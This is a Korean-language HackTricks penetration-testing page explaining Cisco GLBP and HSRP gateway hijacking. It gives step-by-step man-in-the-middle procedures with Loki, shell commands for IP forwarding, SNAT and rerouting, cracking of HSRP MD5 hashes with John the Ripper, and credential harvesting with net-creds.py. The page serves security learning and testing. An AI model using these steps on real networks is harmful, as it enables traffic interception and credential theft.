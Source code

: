 # GLBP & HSRP 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 영웅이 되는 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP 해킹 개요

### FHRP 통찰
FHRP는 여러 라우터를 하나의 가상 단위로 병합하여 네트워크 견고성을 제공하고 부하 분산 및 장애 허용성을 향상시키기 위해 설계되었습니다. Cisco Systems는 GLBP 및 HSRP와 같은 중요한 프로토콜을 이 스위트에 소개했습니다.

### GLBP 프로토콜 통찰
Cisco의 창작물인 GLBP는 TCP/IP 스택에서 작동하며 통신에 UDP 포트 3222를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 이러한 패킷을 10초 동안 보내지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않고 수정할 수 있습니다.

### GLBP 작동 및 부하 분산
GLBP는 단일 가상 IP와 여러 가상 MAC 주소를 사용하여 라우터 간에 부하를 분산하는 기능으로 두드러집니다. GLBP 그룹에서 각 라우터는 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 다음과 같은 여러 메커니즘을 통해 실제 부하 분산을 제공합니다:

- **호스트 종속 부하 분산:** 호스트에 일관된 AVF MAC 주소 할당을 유지하여 안정적인 NAT 구성에 필수적입니다.
- **라운드 로빈 부하 분산:** 요청하는 호스트 사이에서 AVF MAC 주소 할당을 번갈아가며 수행하는 기본 접근 방식입니다.
- **가중 라운드 로빈 부하 분산:** 미리 정의된 "가중치" 메트릭에 따라 부하를 분배합니다.

### GLBP의 주요 구성 요소 및 용어
- **AVG (Active Virtual Gateway):** MAC 주소를 동료 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하는 라우터입니다.
- **GLBP 우선 순위:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 범위를 가집니다.
- **GLBP 가중치:** 라우터의 현재 부하를 반영하며, 수동으로 조정하거나 Object Tracking을 통해 조정할 수 있습니다.
- **GLBP 가상 IP 주소:** 모든 연결된 장치에 대한 네트워크의 기본 게이트웨이로 작동합니다.

상호 작용을 위해 GLBP는 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 패킷이 10초 동안 누락되면 비운영 상태로 간주됩니다.

### GLBP 공격 메커니즘
공격자는 우선 순위 값이 가장 높은(255) GLBP 패킷을 보내어 주 라우터가 될 수 있습니다. 이로 인해 DoS 또는 MITM 공격이 발생할 수 있으며, 트래픽 가로채기 또는 리디렉션이 가능해집니다.

### Loki를 사용한 GLBP 공격 실행
[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치가 255로 설정된 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계로는 Wireshark와 같은 도구를 사용하여 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 수집하는 것이 포함됩니다.

공격 단계:
1. Promiscuous 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 해당 IP를 검색합니다.
3. Gratuitous ARP를 생성합니다.
4. AVG를 흉내 내는 악의적인 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP를 반영하는 보조 IP 주소를 할당합니다.
6. 완전한 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 계속된 인터넷 액세스를 보장하기 위해 라우팅을 조정합니다.

이러한 단계를 따르면 공격자는 "중간자"로 위치하여 암호화되지 않거나 민감한 데이터를 포함한 네트워크 트래픽을 가로채고 분석할 수 있습니다.

시연을 위해 필요한 명령 스니펫은 다음과 같습니다:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP (Hot Standby Router/Redundancy Protocol)를 이용한 HSRP 하이재킹의 수동 설명과 명령어 세부사항

#### HSRP 개요 (Hot Standby Router/Redundancy Protocol)
HSRP는 네트워크 게이트웨이의 여분 시스템을 위한 Cisco 독점 프로토콜입니다. 여러 물리적 라우터를 공유 IP 주소를 가진 단일 논리적 단위로 구성할 수 있습니다. 이 논리적 단위는 트래픽을 관리하는 주 라우터에 의해 관리됩니다. GLBP와 달리 우선순위 및 가중치와 같은 메트릭을 사용하는 대신 HSRP는 트래픽 관리를 위해 단일 활성 라우터에 의존합니다.

#### HSRP의 역할 및 용어
- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이로 작동하는 장치.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 대기하여 대체할 백업 라우터.
- **HSRP 그룹**: 단일 견고한 가상 라우터를 형성하기 위해 협력하는 라우터 집합.
- **HSRP MAC 주소**: HSRP 설정에서 논리적 라우터에 할당된 가상 MAC 주소.
- **HSRP 가상 IP 주소**: 연결된 장치를 위한 기본 게이트웨이로 작동하는 HSRP 그룹의 가상 IP 주소.

#### HSRP 버전
HSRP에는 HSRPv1과 HSRPv2 두 버전이 있으며 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조가 다릅니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 활용하며, Hello 패킷은 3초마다 전송됩니다. 10초 간격 내에 패킷을 수신하지 않으면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘
HSRP 공격은 최대 우선순위 값을 주입하여 활성 라우터의 역할을 강제로 인수하는 것을 포함합니다. 이는 중간자 공격을 유발할 수 있습니다. 필수적인 사전 공격 단계는 HSRP 설정에 대한 데이터 수집으로, 이는 트래픽 분석을 위해 Wireshark를 사용하여 수행할 수 있습니다.

#### HSRP 인증 우회 단계
1. HSRP 데이터를 포함하는 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 해독합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki를 사용한 HSRP Injection 실행**

1. HSRP 광고를 식별하기 위해 Loki를 실행합니다.
2. 네트워크 인터페이스를 Promiscuous 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki를 사용하여 특정 라우터를 대상으로 설정하고 해독된 HSRP 암호를 입력하며 활성 라우터를 흉내내기 위한 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후 네트워크 인터페이스 및 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 가로챈 트래픽에서 자격 증명을 캡처하기 위해 net-creds.py 또는 유사한 유틸리티를 사용합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이러한 단계를 실행하면 공격자가 GLBP 하이재킹 절차와 유사하게 트래픽을 가로채고 조작할 수 있는 위치에 있게 됩니다. 이는 HSRP와 같은 여분 시스템 프로토콜의 취약성을 강조하며 견고한 보안 조치의 필요성을 강조합니다.

## 참고 자료
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
